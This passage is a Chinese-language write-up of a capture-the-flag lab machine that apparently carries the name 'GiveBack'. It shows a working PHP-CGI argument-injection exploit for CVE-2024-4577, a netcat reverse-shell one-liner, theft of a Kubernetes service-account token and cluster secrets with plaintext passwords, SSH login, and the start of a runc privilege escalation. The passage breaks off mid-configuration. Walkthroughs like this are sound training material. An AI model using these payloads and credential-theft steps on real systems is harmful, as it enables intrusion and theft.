<tr><td class="e">Reflection </td><td class="v">Marcus Boerger, Timm Friebe, George Schlossnagle, Andrei Zmievski, Johannes Schlueter </td></tr>
<tr><td class="e">Sessions </td><td class="v">Sascha Schumann, Andrei Zmievski </td></tr>
<tr><td class="e">Shared Memory Operations </td><td class="v">Slava Poliakov, Ilia Alshanetsky </td></tr>
<tr><td class="e">SimpleXML </td><td class="v">Sterling Hughes, Marcus Boerger, Rob Richards </td></tr>
<tr><td class="e">SNMP </td><td class="v">Rasmus Lerdorf, Harrie Hazewinkel, Mike Jackson, Steven Lawrance, Johann Hanne, Boris Lytochkin </td></tr>
<tr><td class="e">SOAP </td><td class="v">Brad Lafountain, Shane Caraveo, Dmitry Stogov </td></tr>
<tr><td class="e">Sockets </td><td class="v">Chris Vandomelen, Sterling Hughes, Daniel Beulshausen, Jason Greene </td></tr>
<tr><td class="e">Sodium </td><td class="v">Frank Denis </td></tr>
<tr><td class="e">SPL </td><td class="v">Marcus Boerger, Etienne Kneuss </td></tr>
<tr><td class="e">SQLite 3.x driver for PDO </td><td class="v">Wez Furlong </td></tr>
<tr><td class="e">SQLite3 </td><td class="v">Scott MacVicar, Ilia Alshanetsky, Brad Dewar </td></tr>
<tr><td class="e">System V Message based IPC </td><td class="v">Wez Furlong </td></tr>
<tr><td class="e">System V Semaphores </td><td class="v">Tom May </td></tr>
<tr><td class="e">System V Shared Memory </td><td class="v">Christian Cartus </td></tr>
<tr><td class="e">tidy </td><td class="v">John Coggeshall, Ilia Alshanetsky </td></tr>
<tr><td class="e">tokenizer </td><td class="v">Andrei Zmievski, Johannes Schlueter </td></tr>
<tr><td class="e">XML </td><td class="v">Stig Bakken, Thies C. Arntzen, Sterling Hughes </td></tr>
<tr><td class="e">XMLReader </td><td class="v">Rob Richards </td></tr>
<tr><td class="e">XMLWriter </td><td class="v">Rob Richards, Pierre-Alain Joye </td></tr>
<tr><td class="e">XSL </td><td class="v">Christian Stocker, Rob Richards </td></tr>
<tr><td class="e">Zip </td><td class="v">Pierre-Alain Joye, Remi Collet </td></tr>
<tr><td class="e">Zlib </td><td class="v">Rasmus Lerdorf, Stefan Roehrich, Zeev Suraski, Jade Nicoletti, Michael Wallner </td></tr>
</table>
<table>
<tr class="h"><th colspan="2">PHP Documentation</th></tr>
<tr><td class="e">Authors </td><td class="v">Mehdi Achour, Friedhelm Betz, Antony Dovgal, Nuno Lopes, Hannes Magnusson, Philip Olson, Georg Richter, Damien Seguy, Jakub Vrana, Adam Harvey </td></tr>
<tr><td class="e">Editor </td><td class="v">Peter Cowburn </td></tr>
<tr><td class="e">User Note Maintainers </td><td class="v">Daniel P. Brown, Thiago Henrique Pojda </td></tr>
<tr><td class="e">Other Contributors </td><td class="v">Previously active authors, editors and other contributors are listed in the manual. </td></tr>
</table>
<table>
<tr class="h"><th>PHP Quality Assurance Team</th></tr>
<tr><td class="e">Ilia Alshanetsky, Joerg Behrens, Antony Dovgal, Stefan Esser, Moriyoshi Koizumi, Magnus Maatta, Sebastian Nohn, Derick Rethans, Melvyn Sopacua, Pierre-Alain Joye, Dmitry Stogov, Felipe Pena, David Soria Parra, Stanislav Malyshev, Julien Pauli, Stephen Zarkos, Anatol Belski, Remi Collet, Ferenc Kovacs </td></tr>
</table>
<table>
<tr class="h"><th colspan="2">Websites and Infrastructure team</th></tr>
<tr><td class="e">PHP Websites Team </td><td class="v">Rasmus Lerdorf, Hannes Magnusson, Philip Olson, Lukas Kahwe Smith, Pierre-Alain Joye, Kalle Sommer Nielsen, Peter Cowburn, Adam Harvey, Ferenc Kovacs, Levi Morrison </td></tr>
<tr><td class="e">Event Maintainers </td><td class="v">Damien Seguy, Daniel P. Brown </td></tr>
<tr><td class="e">Network Infrastructure </td><td class="v">Daniel P. Brown </td></tr>
<tr><td class="e">Windows Infrastructure </td><td class="v">Alex Schoenmaker </td></tr>
</table>
<h2>PHP License</h2>
<table>
<tr class="v"><td>
<p>
This program is free software; you can redistribute it and/or modify it under the terms of the PHP License as published by the PHP Group and included in the distribution in the file:  LICENSE
</p>
<p>This program is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
</p>
<p>If you did not receive a copy of the PHP license, or have any questions about PHP licensing, please contact license@php.net.
</p>
</td></tr>
</table>
</div></body></html>
```
</details>

#### 保存这段HTML代码，然后在Firefox浏览器中打开它：
```
[★]$ vi debug.html
[★]$ firefox debug.html
```

#### 这台服务器运行的是 CGI 程序。此页面显示的 PHP CGI 版本为 8.3.3
#### CVE-2024-4577
https://nvd.nist.gov/vuln/detail/cve-2024-4577
```
在 PHP 版本 8.1.*（8.1.29 之前）、8.2.*（8.2.20 之前）和 8.3.*（8.3.8 之前）中，当在 Windows 系统上使用 Apache 和 PHP-CGI 时，如果系统配置为使用特定的代码页，Windows 可能会使用“最佳匹配”机制来替换传递给 Win32 API 函数的命令行中的字符。PHP CGI 模块可能会将这些字符错误地解释为 PHP 选项，从而允许恶意用户将选项传递给正在运行的 PHP 二进制文件，进而泄露脚本源代码、在服务器上运行任意 PHP 代码等等。
```
#### 这有点奇怪，因为 GiveBack 显然不是 Windows 系统。不过，页面底部有一段文字写道：
#### 在php -r "echo file_get_contents('http://10.43.2.241:5000/');"的底部
```
<p>This CMS was originally deployed on Windows IIS using <code>php-cgi.exe</code>.
    During migration to Linux, the Windows-style CGI handling was retained to ensure
    legacy scripts continued to function without modification.</p>

<p>此内容管理系统最初是在 Windows IIS 上使用 <code>php-cgi.exe</code> 进行部署的。
在迁移到 Linux 系统的过程中，保留了 Windows 式的 CGI 处理方式，以确保遗留脚本无需修改即可继续正常运行。</p>
```
#### 著名研究员蔡橙（Orange Tsai）发布的这份公告对此进行了更详细的说明。此 CVE 漏洞绕过了CVE-2012-1823的修复。简而言之，某些 Windows 字符集允许 PHP-CGI 参数注入，而该漏洞已在很久以前的 CVE-2012-1823 中得到修复。
https://github.com/php/php-src/security/advisories/GHSA-3qgc-jrrr-25jv
```
如果攻击者将-`to`改为 ` %ad，则会绕过补丁并注入代码-s以显示 PHP 源代码……

http://server/index.php?%ads
```
https://nvd.nist.gov/vuln/detail/cve-2012-1823
```
在 PHP 5.3.12 之前的版本和 5.4.x 版本（5.4.2 之前的版本）中，sapi/cgi/cgi_main.c 在配置为 CGI 脚本（又名 php-cgi）时，无法正确处理缺少 =（等号）字符的查询字符串，这使得远程攻击者可以通过在查询字符串中放置命令行选项来执行任意代码，这与未跳过 'd' 情况下的某些 php_getopt 有关
```
### POC 概念验证
#### 我打算以它为目标/cgi-bin/php-cgi，因为它看起来像是一个典型的 CGI 脚本。正常运行后，它只会输出“OK”：
```
I have no name!@beta-vino-wp-wordpress-fb7b8dcf8-kzt98:/$ php -r "echo file_get_contents('http://10.43.2.241:5000/cgi-bin/php-cgi');"                     
OK
```
#### 我需要向这个脚本发送请求，并使用该%AD命令注入 PHP 参数。我的漏洞利用方法很简单curl（我可以直接在这里建立隧道），但我将使用 PHP 来实现，编写以下脚本/tmp/rce.php：
```
I have no name!@beta-vino-wp-wordpress-fb7b8dcf8-kzt98:/$ echo PD9waHAKJGNtZCA9ICRhcmd2WzFdID8/ICJpZCI7CiR1cmwgPSAiaHR0cDovLzEwLjQzLjIuMjQxOjUwMDAvY2dpLWJpbi9waHAtY2dpPyVBRGQrYXV0b19wcmVwZW5kX2ZpbGUlM0RwaHAlM0ElMkYlMkZpbnB1dCI7CiRjdHggPSBzdHJlYW1fY29udGV4dF9jcmVhdGUoWyJodHRwIiA9PiBbCiAgICAibWV0aG9kIiA9PiAiUE9TVCIsCiAgICAiaGVhZGVyIiA9PiAiQ29udGVudC1UeXBlOiBhcHBsaWNhdGlvbi94LXd3dy1mb3JtLXVybGVuY29kZWQiLAogICAgImNvbnRlbnQiID0+ICRjbWQKXV0pOwokciA9IGZpbGVfZ2V0X2NvbnRlbnRzKCR1cmwsIGZhbHNlLCAkY3R4KTsKZWNobyAkcjsKPz4K | base64 -d > /tmp/rce.php
```
#### 解码后为：
```
<?php
$cmd = $argv[1] ?? "id";
$url = "http://10.43.2.241:5000/cgi-bin/php-cgi?%ADd+auto_prepend_file%3Dphp%3A%2F%2Finput";
$ctx = stream_context_create(["http" => [
    "method" => "POST",
    "header" => "Content-Type: application/x-www-form-urlencoded",
    "content" => $cmd
]]);
$r = file_get_contents($url, false, $ctx);
echo $r;
?>
```
#### 漏洞存在于 URL 中。`--`%AD是 Windows 系统中的“最佳匹配”字符，它映射到-一个短横线（`--`），从而绕过了 CVE-2012-1823 的修复（该修复会阻止-查询字符串中的字面值）。这使得攻击者可以注入 PHP-CGI 参数-d auto_prepend_file=php://input，该参数指示 PHP 在目标脚本运行之前将 POST 请求体作为 PHP 代码执行。该命令可以作为参数传递，也可以id默认运行：
```
I have no name!@beta-vino-wp-wordpress-fb7b8dcf8-kzt98:/$ php /tmp/rce.php
[START]uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
[END]
```
#### 服务器肯定添加了某些[START]东西[END]（我不确定为什么）。总之，这就是远程代码执行！
### Shell
#### bash反向 shell无法工作，一些枚举结果表明，bash目标旧版 pod 上没有安装 bash：
```
I have no name!@beta-vino-wp-wordpress-fb7b8dcf8-kzt98:/$ php /tmp/rce.php 'which bash'      
[START][END]
```
#### nc已经安装了，所以我将使用管道反向 shell：
```
[★]$ sudo nc -lvnp 443
listening on [any] 443 ...
```
```
I have no name!@beta-vino-wp-wordpress-fb7b8dcf8-kzt98:/$ php /tmp/rce.php 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.139 443 >/tmp/f'
```
#### 获得了 root 权限的 shell：
#### 使用标准方法升级 shell （但使用 `--install`sh而bash不是 `--install`，因为它尚未安装）：
```
[★]$ sudo nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.15.139] from (UNKNOWN) [10.129.242.171] 32401
/bin/sh: can't access tty; job control turned off
/var/www/html/cgi-bin # script /dev/null -c sh
Script started, output log file is '/dev/null'.
/var/www/html/cgi-bin # ^[[22;25R^Z
[1]+  Stopped                 sudo nc -lvnp 443
┌─[us-dedivip-4]─[10.10.15.139]─[syareya55@htb-uwxrnx80zh]─[~]
└──╼ [★]$ stty raw -echo;fg
sudo nc -lvnp 443
                 reset
/var/www/html/cgi-bin #
```
### Shell as babywyrm
#### Enumeration 枚举
#### 这个 pod 有一个不同的主机名，但也遵循 K8s pod 格式：
```
/var/www/html/cgi-bin # hostname
legacy-intranet-cms-6f7bf5db84-gb975
```
#### start.sh根目录下有一个：
```
/var/www/html/cgi-bin # cd /
/ # ls
bin       home      mnt       root      srv       tmp
dev       lib       opt       run       start.sh  usr
etc       media     proc      sbin      sys       var
/ # cat start.sh
#!/bin/sh
echo "🚀 Starting REAL php-cgi..."

mkdir -p /var/run
spawn-fcgi -s /var/run/php-cgi.socket -U nginx -G nginx \
          -- /usr/local/bin/php-cgi
chmod 666 /var/run/php-cgi.socket
echo "✅ php-cgi.socket ready"
ls -la /var/run/php-cgi.socket

echo "🌐 Starting nginx..."
nginx -g "daemon off;"
```
#### 没有/secrets，但有一个secrets目录/var/run：
```
/var/run # ls
nginx           nginx.pid       php-cgi.socket  secrets
/var/run # cd secrets
/var/run/secrets # ls
kubernetes.io
/var/run/secrets # cd Kubernetes.io
sh: cd: can't cd to Kubernetes.io: No such file or directory
/var/run/secrets # cd kubernetes.io
/var/run/secrets/kubernetes.io # ls
serviceaccount
/var/run/secrets/kubernetes.io # cd serviceaccount
/var/run/secrets/kubernetes.io/serviceaccount # ls
ca.crt     namespace  token
/var/run/secrets/kubernetes.io/serviceaccount # cat token
eyJhbGciOiJSUzI1NiIsImtpZCI6Inp3THEyYUhkb19sV3VBcGFfdTBQa1c1S041TkNiRXpYRS11S0JqMlJYWjAifQ.eyJhdWQiOlsiaHR0cHM6Ly9rdWJlcm5ldGVzLmRlZmF1bHQuc3ZjLmNsdXN0ZXIubG9jYWwiLCJrM3MiXSwiZXhwIjoxODA1OTgwNDA0LCJpYXQiOjE3NzQ0NDQ0MDQsImlzcyI6Imh0dHBzOi8va3ViZXJuZXRlcy5kZWZhdWx0LnN2Yy5jbHVzdGVyLmxvY2FsIiwianRpIjoiMDk2NDI5MjQtZDRmMS00N2EwLThlMTgtM2RhNGNmNDc0NDkzIiwia3ViZXJuZXRlcy5pbyI6eyJuYW1lc3BhY2UiOiJkZWZhdWx0Iiwibm9kZSI6eyJuYW1lIjoiZ2l2ZWJhY2suaHRiIiwidWlkIjoiMTJhOGE5Y2YtYzM1Yi00MWYzLWIzNWEtNDJjMjYyZTQzMDQ2In0sInBvZCI6eyJuYW1lIjoibGVnYWN5LWludHJhbmV0LWNtcy02ZjdiZjVkYjg0LWdiOTc1IiwidWlkIjoiMDc5NDAzMjMtNjMyYi00NDA5LTkxMWItYzJmZmExZmJkY2E5In0sInNlcnZpY2VhY2NvdW50Ijp7Im5hbWUiOiJzZWNyZXQtcmVhZGVyLXNhIiwidWlkIjoiNzJjM2YwYTUtOWIwOC00MzhhLWEzMDctYjYwODc0NjM1YTlhIn0sIndhcm5hZnRlciI6MTc3NDQ0ODAxMX0sIm5iZiI6MTc3NDQ0NDQwNCwic3ViIjoic3lzdGVtOnNlcnZpY2VhY2NvdW50OmRlZmF1bHQ6c2VjcmV0LXJlYWRlci1zYSJ9.CQkC-29E_XN7T6FhJ5MYsF3fuAUuo9PnbZadWpu9iz1CrOALFtAPi-aZK7Mpga-cWQ8OTIe6tre6cxaCQipqE3g2Yjcf80qEs-IukvVltcv5T3NnaDGRPDwJeexopndRiNwnJn9tan2LgB1vydTzQp0YErSGpFxu5nowI3t-_wd2TzGPoWm9scyn0OFuZpPDrw1MdK8tOvsHvqVFoNN315XcM14DCwlYTJT79YCV_-gDLr-X3oUHw1vBVWwn5RmCP982acDawa4SKQO1oIkxAMGfudn9OfqSC340kGYYMKEGjj5DfSv4dTiuTsqlp4Nu8udmHrB7Qekp_YKTvthOfQ

/ # cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt
-----BEGIN CERTIFICATE-----
MIIBdzCCAR2gAwIBAgIBADAKBggqhkjOPQQDAjAjMSEwHwYDVQQDDBhrM3Mtc2Vy
dmVyLWNhQDE3MjY5Mjc3MjMwHhcNMjQwOTIxMTQwODQzWhcNMzQwOTE5MTQwODQz
WjAjMSEwHwYDVQQDDBhrM3Mtc2VydmVyLWNhQDE3MjY5Mjc3MjMwWTATBgcqhkjO
PQIBBggqhkjOPQMBBwNCAATWYWOnIUmDn8DGHOdKLjrOZ36gSUMVrnqqf6YJsvpk
9QbgzGNFzYcwDZxmZtJayTbUrFFjgSydDNGuW/AkEnQ+o0IwQDAOBgNVHQ8BAf8E
BAMCAqQwDwYDVR0TAQH/BAUwAwEB/zAdBgNVHQ4EFgQUtCpVDbK3XnBv3N3BKuXy
Yd0zeicwCgYIKoZIzj0EAwIDSAAwRQIgOsFo4UipeXPiEXvlGH06fja8k46ytB45
cd0d39uShuQCIQDMgaSW8nrpMfNExuGLMZhcsVrUr5XXN8F5b/zYi5snkQ==
-----END CERTIFICATE-----

/ # cat /var/run/secrets/kubernetes.io/serviceaccount/namespace 
default/
```
```
/var/run/secrets/kubernetes.io/serviceaccount/这是默认的 Kubernetes 服务帐户挂载点，它会自动添加到每个 Pod 中（除非显式地使用 `automountServiceAccountToken: false` 禁用）。相关文件如下：

token- 用于对 K8s API 进行身份验证的 JWT
ca.crt- 集群 CA 证书
namespace- pod 的命名空间
我可以用这些文件与 Kubernetes API 进行交互。文件系统的其余部分都是空的
```
### K8s API | Authentication验证
#### HackTricks网站上有一个页面展示了如何使用这些值来curl访问API：
https://cloud.hacktricks.wiki/en/pentesting-cloud/kubernetes-security/kubernetes-enumeration.html#using-curl
```
/ # export APISERVER=10.43.0.1:443
/ # export SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount
/ # export NAMESPACE=$(cat ${SERVICEACCOUNT}/namespace)
/ # export TOKEN=$(cat ${SERVICEACCOUNT}/token)
/ # export CACERT=${SERVICEACCOUNT}/ca.crt
/ # alias kurl="curl --cacert ${CACERT} --header \"Authorization: Bearer ${TOKEN}\""
```
#### 如果我尝试在没有此配置的情况下访问 API，则会失败：
```
/ # curl https://$APISERVER/api -k
curl: (6) Could not resolve host: api

/ # export APISERVER=10.43.0.1:443
/ # export SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount
/ #  export NAMESPACE=$(cat ${SERVICEACCOUNT}/namespace)
/ # export TOKEN=$(cat ${SERVICEACCOUNT}/token)
/ # export CACERT=${SERVICEACCOUNT}/ca.crt
/ # alias kurl="curl --cacert ${CACERT} --header \"Authorization: Bearer ${TOKEN }\""
/ # curl https://$APISERVER/api -k
{
  "kind": "Status",
  "apiVersion": "v1",
  "metadata": {},
  "status": "Failure",
  "message": "Unauthorized",
  "reason": "Unauthorized",
  "code": 401
}/ #
```
#### 但使用kurl（配置为使用tokenand ca-cert）：
```
/ # kurl https://$APISERVER/api
{
  "kind": "APIVersions",
  "versions": [
    "v1"
  ],
  "serverAddressByClientCIDRs": [
    {
      "clientCIDR": "0.0.0.0/0",
      "serverAddress": "10.129.242.171:6443"
    }
  ]
}
```
### 枚举
#### 此令牌无法列出正在运行的 Pod：
```
/ # kurl https://$APISERVER/api/v1/namespaces/$NS/pods
{
  "kind": "Status",
  "apiVersion": "v1",
  "metadata": {},
  "status": "Failure",
  "message": "pods is forbidden: User \"system:serviceaccount:default:secret-reader-sa\" cannot list resource \"pods\" in API group \"\" at the cluster scope",
  "reason": "Forbidden",
  "details": {
    "kind": "pods"
  },
  "code": 403
}
```
#### 它显示了账户名称“secret-reader-sa”，这为下一步查找提供了很好的线索。我会检查是否有秘密信息：

<details>
<summary>/ # kurl https://$APISERVER/api/v1/namespaces/default/secrets</summary>

```
{
  "kind": "SecretList",
  "apiVersion": "v1",
  "metadata": {
    "resourceVersion": "2865292"
  },
  "items": [
    {
      "metadata": {
        "name": "beta-vino-wp-mariadb",
        "namespace": "default",
        "uid": "3473d5ec-b774-40c9-a249-81d51426a45e",
        "resourceVersion": "2088227",
        "creationTimestamp": "2024-09-21T22:17:31Z",
        "labels": {
          "app.kubernetes.io/instance": "beta-vino-wp",
          "app.kubernetes.io/managed-by": "Helm",
          "app.kubernetes.io/name": "mariadb",
          "app.kubernetes.io/part-of": "mariadb",
          "app.kubernetes.io/version": "11.8.2",
          "helm.sh/chart": "mariadb-21.0.0"
        },
        "annotations": {
          "meta.helm.sh/release-name": "beta-vino-wp",
          "meta.helm.sh/release-namespace": "default"
        },
        "managedFields": [
          {
            "manager": "helm",
            "operation": "Update",
            "apiVersion": "v1",
            "time": "2025-08-29T03:29:54Z",
            "fieldsType": "FieldsV1",
            "fieldsV1": {
              "f:data": {
                ".": {},
                "f:mariadb-password": {},
                "f:mariadb-root-password": {}
              },
              "f:metadata": {
                "f:annotations": {
                  ".": {},
                  "f:meta.helm.sh/release-name": {},
                  "f:meta.helm.sh/release-namespace": {}
                },
                "f:labels": {
                  ".": {},
                  "f:app.kubernetes.io/instance": {},
                  "f:app.kubernetes.io/managed-by": {},
                  "f:app.kubernetes.io/name": {},
                  "f:app.kubernetes.io/part-of": {},
                  "f:app.kubernetes.io/version": {},
                  "f:helm.sh/chart": {}
                }
              },
              "f:type": {}
            }
          }
        ]
      },
      "data": {
        "mariadb-password": "c1c1c3A0c3BhM3U3Ukx5ZXRyZWtFNG9T",
        "mariadb-root-password": "c1c1c3A0c3lldHJlMzI4MjgzODNrRTRvUw=="
      },
      "type": "Opaque"
    },
    {
      "metadata": {
        "name": "beta-vino-wp-wordpress",
        "namespace": "default",
        "uid": "1cbbc5ac-1611-46af-8033-09e98dfc546b",
        "resourceVersion": "2088228",
        "creationTimestamp": "2024-09-21T22:17:31Z",
        "labels": {
          "app.kubernetes.io/instance": "beta-vino-wp",
          "app.kubernetes.io/managed-by": "Helm",
          "app.kubernetes.io/name": "wordpress",
          "app.kubernetes.io/version": "6.8.2",
          "helm.sh/chart": "wordpress-25.0.5"
        },
        "annotations": {
          "meta.helm.sh/release-name": "beta-vino-wp",
          "meta.helm.sh/release-namespace": "default"
        },
        "managedFields": [
          {
            "manager": "helm",
            "operation": "Update",
            "apiVersion": "v1",
            "time": "2025-08-29T03:29:54Z",
            "fieldsType": "FieldsV1",
            "fieldsV1": {
              "f:data": {
                ".": {},
                "f:wordpress-password": {}
              },
              "f:metadata": {
                "f:annotations": {
                  ".": {},
                  "f:meta.helm.sh/release-name": {},
                  "f:meta.helm.sh/release-namespace": {}
                },
                "f:labels": {
                  ".": {},
                  "f:app.kubernetes.io/instance": {},
                  "f:app.kubernetes.io/managed-by": {},
                  "f:app.kubernetes.io/name": {},
                  "f:app.kubernetes.io/version": {},
                  "f:helm.sh/chart": {}
                }
              },
              "f:type": {}
            }
          }
        ]
      },
      "data": {
        "wordpress-password": "TzhGN0tSNXpHaQ=="
      },
      "type": "Opaque"
    },
...[/SNIP]...
```
</details>


#### 很多
#### 将用它jq来获取名称和可用密钥：
```
/ # kurl https://$APISERVER/api/v1/namespaces/default/secrets -s | jq '.items[] | {name:.metadata.name, keys: (.data | keys)}' -c
{"name":"beta-vino-wp-mariadb","keys":["mariadb-password","mariadb-root-password"]}
{"name":"beta-vino-wp-wordpress","keys":["wordpress-password"]}
{"name":"sh.helm.release.v1.beta-vino-wp.v58","keys":["release"]}
{"name":"sh.helm.release.v1.beta-vino-wp.v59","keys":["release"]}
{"name":"sh.helm.release.v1.beta-vino-wp.v60","keys":["release"]}
{"name":"sh.helm.release.v1.beta-vino-wp.v61","keys":["release"]}
{"name":"sh.helm.release.v1.beta-vino-wp.v62","keys":["release"]}
{"name":"sh.helm.release.v1.beta-vino-wp.v63","keys":["release"]}
{"name":"sh.helm.release.v1.beta-vino-wp.v64","keys":["release"]}
{"name":"sh.helm.release.v1.beta-vino-wp.v65","keys":["release"]}
{"name":"sh.helm.release.v1.beta-vino-wp.v66","keys":["release"]}
{"name":"sh.helm.release.v1.beta-vino-wp.v67","keys":["release"]}
{"name":"user-secret-babywyrm","keys":["MASTERPASS"]}
```
#### 这些sh.helm.release是产品发布博客，篇幅很长，对我来说没什么用。我会去获取其他数据：
```
/var/www/html/cgi-bin # kurl https://$APISERVER/api/v1/namespaces/default/secrets -s | jq '.items[] | select(.metadata.name | startswith("sh.helm") | not) | {name: .metadata.name, data: (.data | map_values(@base64d))}' -c
{"name":"beta-vino-wp-mariadb","data":{"mariadb-password":"sW5sp4spa3u7RLyetrekE4oS","mariadb-root-password":"sW5sp4syetre32828383kE4oS"}}
{"name":"beta-vino-wp-wordpress","data":{"wordpress-password":"O8F7KR5zGi"}}
{"name":"user-secret-babywyrm","data":{"MASTERPASS":"jrTEyZxVvBwHdliXbzsv8EciYowB3llY"}}
```
#### 那有两个 MariaDB 密码、一个 WordPress 密码，以及一个名为 babywyrm 的用户的密码。除了这个用户的密码之外，其他的密码我之前都从上面的/secrets目录中见过
### SSH
```
[★]$ netexec ssh giveback.htb -u babywyrm -p jrTEyZxVvBwHdliXbzsv8EciYowB3llY
[*] Copying default configuration file
SSH         10.129.242.171  22     giveback.htb     [*] SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.13
SSH         10.129.242.171  22     giveback.htb     [+] babywyrm:jrTEyZxVvBwHdliXbzsv8EciYowB3llY  Linux - Shell access!
```
#### 使用密码登录
```
[★]$ ssh babywyrm@giveback.htb
babywyrm@giveback:~$ cat user.txt
```
#### babywyrm 的主目录非常空：
```
babywyrm@giveback:~$ find . -type f
./.wgetrc
./.bash_logout
./.profile
./.sudo_as_admin_successful
./.cache/motd.legal-displayed
./.ssh/authorized_keys
./user.txt
./.bashrc
```
#### 这条NOPASSWD: !ALL规则意味着任何命令都必须输入密码才能运行。结合第二条规则，babywyrm 只能/opt/debug以 sudo 权限运行，并且必须输入密码才能运行
```
babywyrm@giveback:~$ cat /etc/passwd | grep 'sh$'
root:x:0:0:root:/root:/bin/bash
babywyrm:x:1000:1000:babywyrm:/home/babywyrm:/bin/bash
babywyrm@giveback:~$ sudo -l 
Matching Defaults entries for babywyrm on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty, timestamp_timeout=0, timestamp_timeout=20

User babywyrm may run the following commands on localhost:
    (ALL) NOPASSWD: !ALL
    (ALL) /opt/debug
```
#### 输入了2遍不同的密码，分别是jrTEyZxVvBwHdliXbzsv8EciYowB3llY 、sW5sp4spa3u7RLyetrekE4oS
```
babywyrm@giveback:~$ sudo /opt/debug
[sudo] password for babywyrm: 
Sorry, try again.
[sudo] password for babywyrm: 
[*] Validating sudo privileges...
[*] Sudo validation successful
Please enter the administrative password: 

[*] Administrative password verified
Error: No command specified. Use '/opt/debug --help' for usage information.
babywyrm@giveback:~$ 
```
#### 根据提示使用--help 
```
babywyrm@giveback:~$ sudo /opt/debug --help
[*] Validating sudo privileges...
[*] Sudo validation successful
Please enter the administrative password: 

[*] Administrative password verified
[*] Processing command: --help
Restricted runc Debug Wrapper

Usage:
  /opt/debug [flags] spec
  /opt/debug [flags] run <id>
  /opt/debug version | --version | -v

Flags:
  --log <file>
  --root <path>
  --debug
```
#### 该version命令会提供更多信息：
```
babywyrm@giveback:~$ sudo /opt/debug --version
[*] Validating sudo privileges...
[*] Sudo validation successful
Please enter the administrative password: 

[*] Administrative password verified
[*] Processing command: --version
runc version 1.1.11
commit: v1.1.11-0-g4bccb38c
spec: 1.0.2-dev
go: go1.20.12
libseccomp: 2.5.4
```
#### 该debug二进制文件看起来像是对runcOCI 容器运行时（Docker/containerd/K8s 在底层使用）的一个受限包装器
### 直接滥用 runc
#### runc可以创建容器，所以我将创建一个挂载了主机文件系统的容器，这样我就可以以 root 用户身份进入该容器。
#### 我首先要创建一个运行目录 | 为容器设置根文件系统：
```
babywyrm@giveback:~$ mkdir -p /tmp/runc/rootfs
babywyrm@giveback:~$ cd /tmp/runc

babywyrm@giveback:/tmp/runc$ cp -aL /bin rootfs/bin

babywyrm@giveback:/tmp/runc$ mkdir rootfs/lib64
babywyrm@giveback:/tmp/runc$ cp /lib64/ld-linux-x86-64.so.2 rootfs/lib64/

babywyrm@giveback:/tmp/runc$ mkdir rootfs/lib
babywyrm@giveback:/tmp/runc$ cp -a /lib/x86_64-linux-gnu rootfs/lib

babywyrm@giveback:/tmp/runc$ ls -la rootfs/
total 36
drwxrwxr-x 5 babywyrm babywyrm  4096 Mar 26 07:31 .
drwxrwxr-x 3 babywyrm babywyrm  4096 Mar 26 07:29 ..
drwxr-xr-x 2 babywyrm babywyrm 20480 Oct 28 12:10 bin
drwxrwxr-x 3 babywyrm babywyrm  4096 Mar 26 07:32 lib
drwxrwxr-x 2 babywyrm babywyrm  4096 Mar 26 07:31 lib64
```
#### 该runc spec命令将生成默认的 OCI 规范。我可以使用 `sudo config` ，但由于此步骤不需要 root 权限，因此debug我将直接使用 ` sudo config`：runc
```
babywyrm@giveback:/tmp/runc$ runc spec //生成一个 OCI 容器运行配置模板
babywyrm@giveback:/tmp/runc$ ls -l
total 8
-rw-rw-r-- 1 babywyrm babywyrm 2500 Mar 26 07:37 config.json //← 容器配置文件（核心！）
drwxrwxr-x 5 babywyrm babywyrm 4096 Mar 26 07:31 rootfs      //← 容器的根文件系统
```

<details>
<summary>babywyrm@giveback:/tmp/runc$ cat config.json</summary>

```
{
	"ociVersion": "1.2.1",
	"process": {
		"terminal": true,
		"user": {
			"uid": 0,
			"gid": 0
		},
		"args": [
			"sh"
		],
		"env": [
			"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
			"TERM=xterm"
		],
		"cwd": "/",
		"capabilities": {
			"bounding": [
				"CAP_AUDIT_WRITE",
				"CAP_KILL",
				"CAP_NET_BIND_SERVICE"
			],
			"effective": [
				"CAP_AUDIT_WRITE",
				"CAP_KILL",
				"CAP_NET_BIND_SERVICE"
			],
			"permitted": [
				"CAP_AUDIT_WRITE",
				"CAP_KILL",
				"CAP_NET_BIND_SERVICE"
			]
		},
		"rlimits": [
			{
				"type": "RLIMIT_NOFILE",
				"hard": 1024,
				"soft": 1024
			}
		],
		"noNewPrivileges": true
	},
	"root": {
		"path": "rootfs",
		"readonly": true
	},
	"hostname": "runc",
	"mounts": [
		{
			"destination": "/proc",
			"type": "proc",
			"source": "proc"
		},
		{
			"destination": "/dev",
			"type": "tmpfs",
			"source": "tmpfs",
			"options": [
				"nosuid",
				"strictatime",
				"mode=755",
				"size=65536k"
			]
		},
		{
			"destination": "/dev/pts",
			"type": "devpts",
			"source": "devpts",
			"options": [
				"nosuid",
				"noexec",
				"newinstance",
				"ptmxmode=0666",
				"mode=0620",
				"gid=5"
			]
		},
		{
			"destination": "/dev/shm",
			"type": "tmpfs",
			"source": "shm",
			"options": [
				"nosuid",
				"noexec",
				"nodev",
				"mode=1777",
				"size=65536k"
			]
		},
		{
			"destination": "/dev/mqueue",
			"type": "mqueue",
			"source": "mqueue",
			"options": [
				"nosuid",
				"noexec",
				"nodev"
			]
		},
		{
			"destination": "/sys",
			"type": "sysfs",
			"source": "sysfs",
			"options": [
				"nosuid",
				"noexec",
				"nodev",
				"ro"
			]
		},
		{
			"destination": "/sys/fs/cgroup",
			"type": "cgroup",
			"source": "cgroup",
			"options": [
				"nosuid",
				"noexec",
				"nodev",
				"relatime",
				"ro"
			]
		}
	],
	"linux": {
		"resources": {
			"devices": [
				{
					"allow": false,
					"access": "rwm"
				}
			]
		},
